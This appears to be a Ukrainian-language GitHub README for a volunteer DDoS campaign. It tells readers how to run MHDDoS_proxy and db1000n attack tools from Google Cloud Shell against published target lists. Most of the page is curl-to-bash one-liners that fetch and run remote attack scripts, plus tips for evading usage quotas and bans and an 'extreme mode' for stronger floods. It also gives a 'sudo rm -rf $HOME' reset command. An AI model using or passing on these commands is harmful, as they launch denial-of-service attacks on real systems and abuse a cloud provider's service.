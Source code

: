 ## [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### з ПК та смартфонів (*зі всього, що має браузер*;)
#
#### Браузерний спосіб (*підходить для використання до 10-20 акаунтів з одного ПК, якщо більше [Вам сюди](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• **Максимальна тривалість сеансу Cloud Shell - 12 годин. Новий сеанс можна почати одразу після розриву.**    
:exclamation:• Враховуйте, що встановлені **тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі** (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях можна вимкнути статистику використання.    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
### Стабільні сеанси (*90%*)
:white_check_mark:**Команда для встановлення та запуску MHDDoS_proxy (по [Layer7](https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst)):**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark: **Команда для встановлення та запуску db1000n:** 
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
### Тести/допрацювання/експерименти. 
**Нестабільні сеанси, перериваються** (потрібно часто перевіряти)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Розділений термінал (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (команди mhddos_proxy без параметрів)
 :exclamation: **Атаки виходять потужні але короткі + висока ймовірність отримати бан** (*бан зазвичай тимчасовий і стосується тільки доступу до GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
